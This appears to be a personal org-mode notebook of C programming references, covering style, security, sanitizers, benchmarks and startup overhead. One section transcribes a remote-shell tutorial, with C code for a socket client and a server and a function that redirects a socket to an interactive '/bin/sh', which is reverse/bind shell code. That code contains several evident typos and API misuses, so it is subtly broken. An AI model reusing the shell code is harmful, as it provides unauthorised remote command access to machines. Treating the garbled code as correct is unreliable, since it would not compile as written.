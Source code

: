 - https://jangafx.com/insights/linux-binary-compatibility
- https://learnxinyminutes.com/c/
- 21 Don't use math.h/div(3) https://eklitzke.org/don't-use-div(3)
- https://overflow.hostux.net/questions/2565727/which-functions-from-the-standard-library-must-should-be-avoided
- https://sekrit.de/webdocs/c/beginners-guide-away-from-scanf.html
- course
  - https://cse.buffalo.edu/~eblanton/course/cse410-2018-2f/
  - https://cse.buffalo.edu/~eblanton/course/cse410-2018-2f/materials/2018-2F/
- style https://www.gnu.org/prep/standards/standards.html
- style https://suckless.org/coding_style/
- https://github.com/oz123/awesome-c?tab=readme-ov-file#learning-reference-and-tutorials
- https://text.causal.agency/003-pleasant-c.txt
- https://text.causal.agency/005-testing-c.txt
- https://text.causal.agency/006-some-libs.txt
- https://text.causal.agency/020-c-style.txt
- https://sqlite.org/whyc.html
- sockets https://roscas.github.io/reseau/Linux-Sockets-CheatSheet.html
- https://www.deusinmachina.net/p/c-strings-and-my-slow-descent-to
- Few lesser known tricks, quirks and features of C https://blog.joren.ga/less-known-c
- The “Build Your Own Redis” Book Is Completed https://news.ycombinator.com/item?id=34572263
- Article: https://suckless.org/coding_style/
- 10 https://web.archive.org/web/20100715074224/https://www.securecoding.cert.org/confluence/display/seccode/STR05-C.+Use+pointers+to+const+when+referring+to+string+literals
- 11 Object-oriented design patterns in the kernel, part 1 https://lwn.net/Articles/444910/
- 11 https://blog.llvm.org/2011/05/what-every-c-programmer-should-know.html
- 16 https://matt.sh/howto-c
- 21 unfashionable C https://www.yodaiken.com/2021/05/21/your-computer-is-a-fast-pdp-11-and-more-on-c-the-c-standard-and-computer-architecture/
- 18 C Is Not a Low-level Language https://queue.acm.org/detail.cfm?id=3212479
- c2x https://habr.com/en/company/badoo/blog/512802/
* 0x00sec - Remote Shells
**   I Use Cases
https://0x00sec.org/t/remote-shells-part-i/269/1

- Remote Access:
  In the cases when is NOT possible to deploy a service like "ssh" or "telnet"
  you can easily write your own remote shell program.

- Types of Remote Shells
  - Direct: act like servers
  - Reverse: the application "calls back home" to a specifict server/port

** client

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>

  int client_init(char *ip, int port) {
    int s;
    if ((s = socket(AF_INET; SOCK_STREAM, 0) < 0) {
        perror("socket:");
        exit(EXIT_FAILURE);
    }

    struct sockaddr_in serv;
    serv.sin_family = AF_INET;
    serv.sin_port = htons(port);
    serv.sin_addr.s_s_addr = inet_addr(ip);
    if (connect(s, (struct sockaddr *)&serv, sizeof(serv)) < 0) {
      perror("connect:");
      exit(EXIT_FAILURE);
    }

    return s;
  }
#+end_src

** server

#+begin_src c
  inet server_init(int port) {
    int s;
    if ((s = socket(AF_INET, SOCK_STREAM, 0) < 0)) {
      perror("socket:");
      exit(EXIT_FAILURE);
    }

    struct sockaddr_in serv;
    serv.sin_family = AF_INET;
    serv.sin_port = htons(port);
    serv.sin_addr.s_addr = htonl(INADDR_ANY);
    if ((bind(s, (struct sockaddr *)&serv, sizeof(struct sockaddr_in))) < 0) {
      perror("bind:");
      exit(EXIT_FAILURE);
    }
    if ((listen(s, 10)) < 0) {
      perror("listen:");
      exit(EXIT_FAILURE);
    }

    socklen_t clen = sizeof(struct sockaddr_in);
    struct sockaddr_in client;
    int s1;
    if ((s1 = accept(s, (struct sockaddr *) &client, &clen)) < 0) {
      perror("accept:");
      exit(EXIT_FAILURE);
    }
    return s1;
  }
#+end_src

** start_shell

#+begin_src c
  int start_shell(int s) {
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    char *name[3];
    name[0] = "/bin/sh";
    name[1] = "-i";
    name[2] = NULL;
    execve(name[0], name);
    exit(1);
    return 0;
  }
#+end_src

**  II Crypt your link
- https://0x00sec.org/t/remote-shells-part-ii-crypt-your-link/306
- https://en.wikipedia.org/wiki/Loop_unrolling

- SocketPair
  - Used to transfer data
  - Are a pair of sockets that are immediatly connected
    Something like runing a client and a server in 1 call
  - Kind of like a bidirectional PIPE
  - Convenient IPC

- secure_shell()
  | Parent       | Child              |
  |--------------+--------------------|
  | socketpair() |                    |
  | fork()       | fork()             |
  | close(sp[0]) | close(sp[1])       |
  | async_read() | start_shell(sp[0]) |

- async_read()
  select()
  memset()
  read()
  memfrob()

- We use stdin socket as the input socket for async_read() on main()

** III Shell Access your Phone
- setsockopt() - SO_REUSEADDR

* (in)security
- banned stdlib functions in git source https://github.com/git/git/blob/master/banned.h
- Passing user supplied data to ~printf~ first/format argument, can result in a security vulnerability
- A Guide to Undefined Behavior in C and C++, Part 1
  https://blog.regehr.org/archives/213
- https://github.com/microsoft/checkedc
- https://fastcompression.blogspot.com/2019/01/writing-safer-c-code.html
- https://github.com/gerasdf/InsecureProgramming/
- https://github.com/hardik05/Damn_Vulnerable_C_Program
** Sanitizers
|-------+----------------------------+-------------|
|   <r> |                            |             |
|       |                            | -fsanitize= |
|-------+----------------------------+-------------|
| UBSan | undefined behavior         | undefined   |
|  ASan | addressing of memory       | address     |
|  MSan | uninitialized memory usage | memory      |
|  TSan | thread concurrency bugs    | thread      |
|-------+----------------------------+-------------|
- https://github.com/google/sanitizers/wiki/MemorySanitizer
- https://github.com/google/sanitizers/wiki/AddressSanitizer
  https://clang.llvm.org/docs/AddressSanitizer.html
- https://clang.llvm.org/docs/UndefinedBehaviorSanitizer.html
  - Compile with -g, -fno-sanitize-merge and -fno-omit-frame-pointer to get proper debug information in your binary.
  - Run your program with environment variable UBSAN_OPTIONS=print_stacktrace=1.
  - Make sure llvm-symbolizer binary is in PATH.

- valgrind, fuzzers, libcheck, pvs
- https://tek256.com/posts/code-hardening/
- Static http://splint.org/
- video fuzzers 15 [[https://www.youtube.com/watch?v=qTkYDA0En6U][Beyond Sanitizers...]] by Kostya Serebryany
- https://www.youtube.com/watch?v=Q2C2lP8_tNE
- https://valgrind.org/docs/manual/quick-start.html
- https://gcc.gnu.org/onlinedocs/gcc/Instrumentation-Options.html
* Benchmarks
- Benchmark: https://www.wilfred.me.uk/blog/2014/10/20/the-fastest-bigint-in-the-west/
- Benchmark: FFI https://github.com/dyu/ffi-overhead
  - Golang is 40x slower than C
  - Haskell,Ocaml(opt),Rust are on par with C
  - Ocaml(C) is 4x slower
  - LuaJit is faster than C, https://github.com/dyu/ffi-overhead/issues/2#issuecomment-405834411
    "Using JITing to skip PLT inderection"
    "Same on C would be -fno-plt"

* Article: C Runtime Overhead
  http://ryanhileman.info/posts/lib43
  https://news.ycombinator.com/item?id=29783585
- overhead is 9ms of linker and glibc
- strace -tt shows time in microseconds
- baseline time without stdlib 0.5ms (-ffreestanding -nostdlib)
  #+begin_src c
    // gcc -m32 -ffreestanding -nostdlib
    void _start() {
        /* exit system call */
        asm("movl $1,%eax;"
            "xorl %ebx,%ebx;"
            "int  $0x80"
        );
    }
  #+end_src
- =Bloom filter=, to test SET belongs, for big datasets
  gives false-positive
  do not gives false-negatives
  https://en.wikipedia.org/wiki/Bloom_filter
- 1ms in linking
- 5ms in glibc load
- portable startime libc https://github.com/lunixbochs/lib43

